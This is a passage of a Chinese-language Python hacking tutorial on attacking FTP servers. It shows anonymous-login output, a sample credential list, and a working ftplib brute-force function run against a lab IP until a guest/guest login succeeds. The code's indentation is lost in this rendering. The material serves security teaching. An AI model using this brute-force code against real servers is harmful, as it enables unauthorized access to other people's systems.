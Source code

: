 ```py
attacker# python anonLogin.py
[*] 192.168.95.179 FTP Anonymous Logon Succeeded
```

**利用 Ftplib 暴力破解 FTP 用户认证**

当匿名登录一路回车进入系统，攻击者也十分成功的利用偷来的证书获得合法FTP服务器的访问权限。FTP客户端程序，比如说FileZilla，经常将密码存储在配置文件中。安全专家发现，由于最近的恶意软件，FTP证书经常被偷取。此外，HD Moore甚至将 get_filezilla_creds.rb 的脚本包含到最近的Metasploit的发行版本中允许用户快速的扫描目标主机的FTP证书。想象一个我们想通过暴力破解的包含 username/password 组合的文本文件。对于这个脚本的目的，利用存贮在文本文件中的 username/password 组合

```
administrator:password
admin:12345
root:secret
guest:guest
root:toor
```

现在我们能扩展前面建立的 anonLogin() 函数建立名为 brutelogin() 的函数。这个函数接受主机名和密码文件作为输入返回允许访问主机的证书。注意，函数迭代文件的每一行，用冒号分割用户名和密码，然后这个函数用用户名和密码尝试登陆FTP服务器。如果成功，将返回用户名和密码的元组，如果失败有异常，将继续测试下一行。如果遍历完所有的用户名和密码都没有成功，则返回包含 None 的元组。

```py
# coding=UTF-8
import ftplib
def bruteLogin(hostname, passwdFile):
 pF = open(passwdFile, 'r')
 for line in pF.readlines():
 userName = line.split(':')[0]
 passWord = line.split(':')[1].strip('\r').strip('\n')
 print("[+] Trying: " + userName + "/" + passWord)
 try:
 ftp = ftplib.FTP(hostname)
 ftp.login(userName, passWord)
 print('\n[*] ' + str(hostname) + ' FTP Logon
Succeeded: ' + userName + "/" + passWord)
 ftp.quit()
 return (userName, passWord)
 except Exception as e:
 pass
 print('\n[-] Could not brute force FTP credentials.')
 return (None, None)
host = '192.168.95.179'
passwdFile = 'userpass.txt'
bruteLogin(host, passwdFile)
```

遍历用户名和密码组合，我们终于找到了用户名以及对应的密码。

```
attacker# python bruteLogin.py
[+] Trying: administrator/password
[+] Trying: admin/12345
[+] Trying: root/secret
[+] Trying: guest/guest
[*] 192.168.95.179 FTP Logon Succeeded: guest/guest
```
